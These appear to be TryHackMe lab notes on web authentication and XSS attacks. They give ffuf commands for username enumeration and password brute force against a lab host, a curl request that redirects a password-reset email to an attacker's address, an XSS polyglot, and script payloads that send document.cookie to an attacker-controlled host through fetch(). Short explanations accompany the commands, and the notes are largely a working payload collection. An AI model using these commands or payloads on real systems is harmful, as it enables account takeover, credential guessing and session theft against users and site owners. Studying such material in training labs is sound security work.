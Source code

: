 # Commands

```powershell

ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.215.241/customers/signup -mr "username already exists"

```

In the above example, the -w argument selects the file's location on the computer that contains the list of usernames that we're going to check exists. The -X argument specifies the request method, this will be a GET request by default, but it is a POST request in our example. The -d argument specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. We've set the value of the username to FUZZ. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request. The -H argument is used for adding additional headers to the request. In this instance, we're setting the Content-Type to the webserver knows we are sending form data. The -u argument specifies the URL we are making the request to, and finally, the -mr argument is the text on the page we are looking for to validate we've found a valid username.

```powershell
# brute force attack
ffuf -w ./HackingPython/THM-WordsList/valid-usernames.txt:W1,./SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d  "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.215.241/customers/login -fc 200
```

This ffuf command is a little different to the previous one in Task 2. Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword. In this instance, we've chosen W1 for our list of valid usernames and W2 for the list of passwords we will try. The multiple wordlists are again specified with the -w argument but separated with a comma.  For a positive match, we're using the -fc argument to check for an HTTP status code other than 200.

curl 'http://10.10.215.241/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=paolo@customer.acmeitsupport.thm'

## XSS polyglot

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
```html
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
</textarea><script>fetch('http://10.10.10.100/?cookie=' + btoa(document.cookie) );</script>
</textarea><script>fetch('http://ff3eff8746b0e6d2ba0fbfe277f7d9c2.log.tryhackme.tech?cookie=' + btoa(document.cookie) );</script>
```

## Reference

[](https://crackstation.net/)  
[RCE Payloads](https://github.com/payloadbox/command-injection-payload-list)  
